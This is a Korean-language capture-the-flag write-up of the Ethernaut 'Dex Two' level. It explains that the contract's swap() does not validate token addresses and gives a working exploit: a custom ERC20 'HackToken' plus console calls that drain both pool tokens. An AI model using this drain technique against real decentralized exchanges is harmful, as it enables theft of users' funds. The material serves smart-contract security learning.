

# 👋 1. Dex Two
__Difficulty 4/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- DexTwo Contract의 Token 1과 Token 2의 balance를 전부 소진하기


- - -
## 들어가기 전
22. Dex contract와 마찬가지고 DexTwo contact도 DEX와 ERC20에 대한 지식이 있어야 한다.
Uniswap의 코드를 전부 분석하지는 못하더라도 작동원리에 대해서는 알아야한다.
또한 ERC20 standard에 어떤 function이 필요한지, 어떻게 작동하는지 공부해야한다.
아래 링크들을 통해 충분히 익숙해 진 후 풀기를 권장한다. 링크 이외에 Youtube에도 좋은 자료들이 많다!
- [Uniswap](https://docs.uniswap.org/protocol/V2/introduction)
- [openzeppelin ERC20 contract](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20)

## 코드 분석
분석은 주석에 있습니다!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract DexTwo  {
    using SafeMath for uint;
    address public token1;
    address public token2;
    constructor(address _token1, address _token2) public {
        token1 = _token1;
        token2 = _token2;
    }

    function swap(address from, address to, uint amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint swap_amount = get_swap_amount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swap_amount);
        IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
    }

    function add_liquidity(address token_address, uint amount) public{
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function get_swap_amount(address from, address to, uint amount) public view returns(uint){
        return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint amount) public {
        SwappableTokenTwo(token1).approve(spender, amount);
        SwappableTokenTwo(token2).approve(spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint){
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
    }
}
```

<br/>
Dex contract와 DexTwo contract의 다른 점은 DexTwo는 swap()에서 token 1과 token 2를 확인하지 않는다.
즉 어느 token이라도 swap 될 수 있다.
```solidity
// 이 require 문에 제외되었다.
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```


- - -

## 풀이
이번 문제에서 우리는 Dex가 가진 모든 토큰을 소모하면 된다. 22번 Dex 문제를 잘 이해하고 있어야 풀 수 있다.
그렇다면 어떻게 소모할 수 있을까? 힌트를 보자
- 스왑 방법은 어떻게 수정되었는가? How has the swap method been modified?
- 공격할때에 커스텀 토큰 contract를 사용할 수 있는가? Could you use a custom token contract in your attack?


코드분석 아래에 보면 Dex contract와 DexTwo contract가 어떻게 수정되었는지 알 수 있다.
Dex contract와 다르게 더 이상 Token address를 검증하지 않는다.

그렇다면 우리가 만든 Custom Token으로도 swap이 가능하지 않을까?

Custom Token을 사용한 attack 시나리오를 보자.
1. ERC20 standard를 사용하는 Custom Token을 Deploy한다.
2. Deploy한 Token을 DexTwo contract가 사용할 수 있도록 approve해준다.
3. approve된 개수 중 100개만 liquidity에 add해준다(add_liquidity function 사용).
4. Token 1을 1대1 비율로 swap한다(100개 주고 100개 받고).
5. 이후 Dex contract는 200개의 Custom Token을 가지게 된다(Token 1:0개, Token 2: 100개, Custom Token: 200개). 
6. Token 2를 2대1 비율로 swap해준다(Custom Token 200개 주고, Token 2 100개 받기).
7. Dex contract가 가진 Token 1과 2의 balance를 보면 0이된 것을 확인 할 수 있다.

<br/>

Token 교환 비율은 아래와 같은 공식을 사용해 결정된다.
`(amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this))`
22번 문제를 잘 이해하고 풀었다면 위에 1대1, 2대1 비율이 무슨말인지 알 것이라고 생각한다.

<br/>

그렇다면 Attack에 사용할 contract를 보자.
ERC20 Standard를 이해하고 있어야만 한다!
```solidity
import "@openzeppelin/contracts@3.4.1/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts@3.4.1/token/ERC20/ERC20.sol";

contract HackToken is ERC20 {
    //새로운 Token을 발행하고 나에서 mint한다.
    constructor () public ERC20("HackToken", "HAC") {
        _mint(msg.sender, 1000000 * (10 ** uint256(decimals())));
    }

}
```
<br/>

위 HackToken을 Remix를 사용해 contract를 deploy한다.
발행한 Token은 metamask에서도 확인할 수 있다.

import tokens에 들어가 HackToken의 주소를 입력하면 위와같이 HackToken의 심불인 HAC를 확인 할 수 있다.

<br/>

Token 발행이 끝났다면 liquidity에 add할 수 있도록 DexTwo를 `approve` 해주어야한다.
Remix에서 Deploy된 contract에서 `approve`에 인자를 넣고 실행시킨다. 그때 `spender`은 DexTwo의 주소이고 `amount`는 앞으로 `approve`를 더하지 않을 수 있도록 `1000`을 입력 후 transaction을 보낸다.

이제 Ethernauts로 돌아와 console창과 상호작용한다.
ctrl + shift + i를 눌러 console창을 활성화 시키자
```js
// DexTwo가 내 token 1과 2를 transferFrom 할 수 있도록 approve 해준다.
await contract.approve(instance, "1000000000000000000000")
// liquidity에 hacking token 100개를 add 해준다.
await contract.add_liquidity("hacking contract address",100)
// hack token 100개를 token 1 100개와 swap 해준다.
await contract.swap("hacking contract address","Token 1 address", 100)
// 이제 liquidity pool에 ㅔHAC token이 200개 있음으로 200개를 swap 해준다.
await contract.swap("hacking contract address","Token 2 address", 200)
// Dex의 Token1과 2의 balance가 0이 된 것을 확인한다.
await contract.balanceOf(await contract.token1(), instance).then(x=> x.toString())
await contract.balanceOf(await contract.token2(), instance).then(x=> x.toString())
```


token1과 2, 모두가 balance가 0이 된 것을 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
이번 문제는 22. Dex 문제에서 바뀐 부분이 명확해서 취약점을 쉽게 찾을 수 있었다. 22번과 23번을 풀면서 약간이남아 swap에 대해 깨달은 것 같다. 또한 이 문제에서는 ERC20 Token이라고해서 모두 신뢰할 수 있는 것은 아니라는 교훈을 주는 것 같다. 이제 얼마 남지 않은 문제들도 열심히 풀어서 초보자 티를 벗어보자 :)


- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org

```toc

```